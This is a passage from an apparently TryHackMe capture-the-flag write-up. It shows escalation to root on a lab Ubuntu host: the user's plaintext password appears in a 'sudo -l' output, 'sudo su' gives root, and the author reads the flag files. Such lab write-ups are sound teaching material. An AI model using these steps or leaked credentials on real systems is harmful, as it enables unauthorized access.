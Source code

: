 and it seems like alison is a member of sudo users, lets see if alison has some special sudo rights

```
alison@ubuntu:~$ sudo -l
[sudo] password for alison: p4ssw0rdS3cur3!#

Matching Defaults entries for alison on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User alison may run the following commands on ubuntu:
    (ALL : ALL) ALL
```

well, **(ALL : ALL) ALL** is a win for us, as alison has full privilege permissions over ubuntu host, we can quickly laverage to root user

```
alison@ubuntu:~$ sudo su
root@ubuntu:/home/alison# id
uid=0(root) gid=0(root) groups=0(root)
```

as our gole consist of retriving the flags

```
root@ubuntu:~# cat root.txt
THM{REDACTED}
root@ubuntu:~# cat /home/alison/user.txt
THM{REDACTED}
```
<br>
Best Regards

[m3dsec](https://twitter.com/m3dsec).

<br>
<br>

[back to main()](../../index.md)

<br>
<br>